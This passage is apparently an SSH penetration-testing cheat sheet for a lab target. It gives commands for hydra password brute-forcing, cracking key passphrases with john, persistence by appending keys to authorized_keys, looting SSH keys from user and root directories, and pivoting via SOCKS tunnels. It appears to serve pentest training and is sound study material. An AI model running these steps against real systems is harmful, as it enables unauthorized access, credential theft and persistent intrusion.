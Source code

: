 Common paths:
- Server config: /etc/ssh/sshd_config
- Client config: ~/.ssh/config
- Keys: ~/.ssh/id_rsa, ~/.ssh/authorized_keys

## Practical tips
- Respect lockouts: Use low concurrency (e.g., -t 4) and Stop-on-success to reduce noise.
- Try credential reuse: Reuse creds found via SMB/FTP/web on SSH.
- Force specific auth: Use PreferredAuthentications to test password vs. key-based.
- Fix key perms: chmod 600 private keys; use -o IdentitiesOnly=yes with -i.
- Upgrade shells: Prefer SSH sessions over unstable reverse shells.
- Pivot cleanly: Dynamic SOCKS (-D) plus proxychains is often the fastest path to internal reconnaissance.
- Root logins: Many servers disable PermitRootLogin; try non-root users first.
- Loot keys system-wide: Check /home/*/.ssh, /root/.ssh, backups (/var/backups), repo leaks.
- Crack key passphrases: ssh2john + john is fast and often fruitful with common lists.

## Minimal cheat sheet (one-screen flow)
```bash
# Vars
TARGET=10.10.10.10; PORT=22; USERS=users.txt; PASS=/usr/share/wordlists/rockyou.txt; KEY=id_rsa; USER=student

# Enumerate SSH
nmap -sV -sC -p $PORT $TARGET
nmap -p $PORT --script ssh-auth-methods,ssh2-enum-algos,ssh-hostkey $TARGET

# Password attack (gentle)
hydra -L $USERS -P $PASS -s $PORT -f -u -V ssh://$TARGET

# Login (password)
ssh -p $PORT -o PreferredAuthentications=password -o PubkeyAuthentication=no $USER@$TARGET

# Login (key)
chmod 600 $KEY; ssh -p $PORT -i $KEY -o IdentitiesOnly=yes $USER@$TARGET

# Crack key passphrase
python3 /usr/share/john/ssh2john.py $KEY > key.hash; john --wordlist=$PASS key.hash

# Persistence (append pubkey)
cat ~/.ssh/id_rsa.pub | ssh -p $PORT $USER@$TARGET 'mkdir -p ~/.ssh && chmod 700 ~/.ssh && cat >> ~/.ssh/authorized_keys && chmod 600 ~/.ssh/authorized_keys'

# File transfer
scp -P $PORT -i $KEY ./tool.sh $USER@$TARGET:/tmp/

# Pivoting
ssh -N -L 127.0.0.1:8888:172.16.0.10:80 -p $PORT $USER@$TARGET
ssh -N -D 9050 -p $PORT $USER@$TARGET; proxychains4 -q nmap -sT -Pn -n -p80 172.16.0.10
```
